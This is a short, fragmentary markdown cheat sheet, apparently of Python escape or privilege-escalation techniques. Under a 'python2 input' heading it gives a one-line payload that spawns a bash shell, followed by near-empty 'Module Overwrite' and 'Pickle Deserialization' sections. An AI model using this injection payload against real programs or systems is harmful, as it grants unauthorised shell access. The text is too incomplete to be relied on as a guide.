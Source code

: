 # Python

## python2 input

```
__import__('os').system('/bin/bash')
```

## Module Overwrite

```
import pandas
```

## Pickle Deserialization





